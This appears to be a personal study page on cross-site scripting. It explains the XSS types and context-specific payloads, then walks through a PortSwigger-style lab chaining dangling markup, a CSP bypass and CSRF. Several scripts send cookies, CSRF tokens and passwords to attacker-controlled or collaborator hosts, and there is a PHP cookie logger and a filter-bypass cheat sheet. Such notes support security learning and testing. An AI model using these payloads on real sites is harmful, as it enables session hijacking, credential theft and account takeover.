

>[!abstract]
>It is a vulnerability caused by the **insertion of the user's input inside the web page without that it hash been sanitized**.
>Dangerous special characters are: `< > ' " { } ;`

Different types of XSS:

- **Reflected**: The attack is only temporary for the request made. The vulnerable field is reflected via a parameter within the URL

- **Stored**: XSS attack saves malicious content along with normal content on DB, so that every time that content is loaded, the attack is also executed (typical of blogs)

- **[DOM-based XSS](DOM-based%20vulnerabilities.md#DOM-based%20XSS)**: It occurs when the payload is executed by modifying the DOM (Document Object Model), thus allowing the modification of HTML and XML components. In this case the responsible for the vulnerability is the client language and not the server (as for the other two). It manifests itself when the dynamic page is programmed in JavaScript, so that server-side requests are not executed, and the data present on the screen depends on other data entered by hand or derived from query-strings. DOM based XSS can be both reflected as well as stored, and they usually derive from `eval()` or `innerHTML`.

- **Self XSS**: Self-XSS involves similar application behavior to regular reflected XSS, however it cannot be triggered in normal ways via a crafted URL or a cross-domain request. Instead, the vulnerability is only triggered if the victim themselves submits the XSS payload from their browser.

Possible attacks and risks:

- Theft of cookies and session tokens
- User Enumeration and Fingerprinting
- Redirecting to malicious sites or contents
- Keylogging
- Automation of actions

# Warning when choosing the right PoC

>[!warning]
>From version 92 onward (July 20th, 2021), cross-origin iframes are prevented from calling `alert()`. As these are used to construct some of the more advanced XSS attacks, you'll sometimes need to use an alternative PoC payload. In this scenario, we recommend the `print()` function. Further references at [alert() is dead, long live print()](https://portswigger.net/research/alert-is-dead-long-live-print) 

---

# Examples of attacks

>[!summary] Remember
>A key task is to always identify the XSS context:
>- The location within the response where attacker-controllable data appears.
>- Any input validation or other processing that is being performed on that data by the application.
>
> Based on these details, you can then select one or more candidate XSS payloads, and test whether they are effective.

Example of different context and respective useful payloads:
- XSS between HTML tags 
	- `<script>alert(document.domain)</script>`
	- ``
- XSS in HTML tag attributes
	- `"><script>alert(document.domain)</script>`
	- `" autofocus onfocus=alert(document.domain) x="` 
	- `<a href="javascript:alert(document.domain)">`
	- [XSS in hidden input fields](https://portswigger.net/research/xss-in-hidden-input-fields) ---> `%27accesskey=%27x%27onclick=%27alert(1)`
- XSS into JavaScript
	- `</script>`
	- `'-alert(document.domain)-'` or `';alert(document.domain)//`
- Making use of HTML-encoding
	- `&apos;-alert(document.domain)-&apos;`
- XSS in JavaScript template literals (eg. ``document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;``)
	- `${alert(document.domain)}`
- [Client-side template injection (CSTI)](Client-side%20template%20injection%20(CSTI).md)
	- [Client-side template injection in AngularJS](Client-side%20template%20injection%20(CSTI).md#Client-side%20template%20injection%20in%20AngularJS)
- [Cross-Site Scripting using MIME sniffing](MIME%20sniffing.md#Cross-Site%20Scripting%20using%20MIME%20sniffing)
## Steal of cookies and session tokens

Payload:

```jsx
<script> new Image().src = "http://attacker.site/log.php?q="+document.cookie;</script>

<script>
alert(document.cookie);
var i=new Image;
i.src="http://192.168.0.18:8888/?"+document.cookie;
</script>

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>


```

Server:

```php
<?php
$filename = "/tmp/log.txt";
$fp = fopen($filename, 'a');

$cookie = $_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

## iframe redirection

Payload:

```jsx
<iframe src="192.168.1.55/malicious.js" height="0" width="0"></iframe>
```

## Dangling markup injection

>[!question] What is dangling markup injection?
>Dangling markup injection is a technique that can be used to capture data cross-domain in situations where a full cross-site scripting exploit is not possible, due to input filters or other defenses. Any attribute that makes an external request can be used for dangling markup.

Often used to capture sensitive information visible to users, like:
- CSRF token
- API keys
- Secrets
- Email messages

>[!example]
>Application code injecting user-supplied data inside the `value` field: `<input type="text" name="input" value="CONTROLLABLE DATA HERE`
>In case there is WAF or something preventing XSS, attacker can exfiltrate data using a payload like `">
>This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.
>

### Password reset poisoning via dangling markup


### XSS + Dangling Markup + CSP bypass + CSRF

[Content Security Policy (CSP)](Content%20Security%20Policy%20(CSP).md) used by the app (very strict):
```http
Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

Discovered a reflection point using pre-filled data:
```html
https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account?email=%22%3EThis%20is%20injected%20%3C!--

<label>Email</label>
<input required type="email" name="email" value="">This is injected <!--">
<input required type="hidden" name="csrf" value="agoOJ9L0emaXgmnfSaF1wRyr5JX2Mvld">
<button class='button' type='submit'> Update email </button>
</form>
</div>
</div>
</section>
<div class="footer-wrapper">
</div>
</div>
</body>
</html>-->
```



XSS can't be obtained but we can leak pages data, including a CSRF token, if we trick the user clicking the link:
```html
<script>
if(window.name) {
	// when imported inside the page using the XSS, it leaks the data contained inside the <base target=""> tag
	new Image().src='//exploit-0a38001803df086284e31d1601610050.exploit-server.net?'+encodeURIComponent(window.name);
	} else {
	// injects the XSS in the email filed
	location = 'https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a38001803df086284e31d1601610050.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>

<!-- resultin base tag after the XSS -->
<base target='">
<input required type="hidden" name="csrf" value="agoOJ9L0emaXgmnfSaF1wRyr5JX2Mvld">
<button class='button' type='submit'>
```
Logs:
```
...
10.0.3.8        2023-07-01 11:11:40 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
10.0.3.8        2023-07-01 11:11:40 +0000 "GET /?%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20required%20type%3D%22hidden%22%20name%3D%22csrf%22%20value%3D%22Q2O4K6Q9aPLnhkCn6CFbXghsBbdSfhak%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
...
```

Finally, we can conduct out [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) and change victim's email:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Q2O4K6Q9aPLnhkCn6CFbXghsBbdSfhak" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Capture passwords exploiting auto-fill

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://uusx5ulcqjyd4ypy5x9hhjhoffl89zxo.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Related article: [Stealing passwords from infosec Mastodon - without bypassing CSP](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp)

## Exploiting XSS to perform CSRF

>[!tip]
>See also [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md)

The payload first extract the CSRF token from the "change email" function, then perform the CSRF attack:
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

Other references:
- GIS3W: [Persistent XSS in G3WSuite 3.5](https://labs.yarix.com/2023/07/gis3w-persistent-xss-in-g3wsuite-3-5-cve-2023-29998/) – CVE-2023-29998
- [AtMail XSS to RCE](https://bishopfox.com/blog/how-i-built-an-xss-worm-on-atmail)
- [Chaining XSS, CSRF to achieve RCE](https://rhinosecuritylabs.com/application-security/labkey-server-vulnerabilities-to-rce/)

## CSS injection and exfiltration

You can use the `@import` rule that works also for **blind CSS exfiltration**:
```html
"><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

The main technique to exfiltrate information via CSS Injection is to try to match a text with CSS and in case that text exist load some external resource:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

>[!warning]
>This technique won't work if the filed is **hidden**, because the background won't be loaded.
>Fix:
>```css
>input[name=csrf][value^=csrF] ~ * {
>    background-image: url(https://attacker.com/exfil/csrF);
>}
>```

A CSS "keylogger" [^video] can be constructed in the same way [^css-k] :

[^css-k]: https://github.com/maxchehab/CSS-Keylogging
[^video]: [The Curse of Cross-Origin Stylesheets - Web Security Research](https://youtu.be/bMPAXsgWNAc?si=fsmfIXeraW_2bDOM&t=317)
```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

With CSS injection however, it is also possible to perform [UI redressing](Clickjacking.md#UI%20redressing%20and%20XSS) in order to re-define any CSS style included in the original page in order to hijack the original behavior.

More attacks can be found at
- [CSS Injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection), HackTricks 
- [Blind CSS Exfiltration: exfiltrate unknown web pages](https://portswigger.net/research/blind-css-exfiltration), PortSwigger


---

# XSS cheat sheets & filtering bypass

```html
<script>alert("Hacked!")</script>                                   <!-- Classic payload -->  
<ScRiPt>alert("Hacked!")</ScRiPt>                                   <!-- Case insensitive bypass -->
<sc<script>ript>alert("XSS");</scr</script>ipt>                     <!-- word control bypass -->
<script type="text/javascript">alert(document.cookie)</script>      <!-- legacy syntax bypass -->
<svg onload="alert(document.cookie)">                               <!-- JS from HTML bypass -->
                                     <!-- JS on error when loading a non existing image -->
<script/junk>alert(1)</script>                                      <!-- random junk after the tag -->
<a href="javascript:alert(1)">show</a>                              <!-- XSS using <a href> tag -->

<!-- Obfuscation -->
                                 <!-- Obfuscation via HTML encoding -->
<a href="javascript&#00000000000058;alert(1)">Click me</a>          <!-- Obfuscation via leading zeros in HTML encodings (deciaml and hex) -->
<a href="javascript:\u0061lert(1)">Click me</a>                     <!-- Obfuscation via Unicode encoding -->
<a href="javascript:\u{0000000003a}alert(1)">Click me</a>           <!-- Obfuscation via leading zeros in unicode encoding -->
<a href="javascript:\x61lert">Click me</a>                          <!-- Obfuscation via HEX encoding -->
<a href="javascript:\141lert">Click me</a>                          <!-- Obfuscation via Octal encoding -->
<a href="javascript:&bsol;u0061lert(1)">Click me</a>                <!-- Obfuscation via multiple layer of encodings (HTML, Unicode) -->
<a href="data:;base64;PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>  <!-- XSS using <a href> tag and base64 payload-->

<!-- XSS without parentheses and semi-colons -->
onerror=alert;throw 1                                               
postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'

<!-- Using SVG to bypass href filtering -->
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>

<!-- I've been using this payload for over a year to discover XSS via open redirect vulnerabilities that bypass WAF https://twitter.com/0xM5awy/status/1704433016427229581 -->
javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

```

Extensive cheat sheets can be found at:

- [Multi-purpose snippets - JS AWAE Prep](https://mlcsec.com/posts/js-awae-prep/)
- [[Evading Restrictions.md]]
- [Cross-Site Scripting (XSS) Cheat Sheet - 2022 Edition | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [javascript-bypass-blacklists-techniques](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#javascript-bypass-blacklists-techniques)
- [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)
- [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)
- `eval(atob("base64"))`
	- [eXtra Safe Security layers](../../Play%20ground/CTFs/eXtra%20Safe%20Security%20layers.md)
	- [Mutation Lab](../../Play%20ground/CTFs/Mutation%20Lab.md)
- [Bypass CSP using MIME sniffing](MIME%20sniffing.md#Bypass%20CSP%20using%20MIME%20sniffing)
- Bypass CSP using [JSONP](JSONP%20vulnerabilities.md#JSON%20with%20Padding%20(JSONP)) as a gadget [^CSP-JSONP]

[^CSP-JSONP]: [Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md), SMHTahsin33
# XSS Prevention [^1]

- **Filter input on arrival**
- **Encode data on output**
- **Use appropriate response headers**
- [Content Security Policy (CSP)](Content%20Security%20Policy%20(CSP).md)

[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing

---

# Tools for XXS

- BeEF
- DOM Invader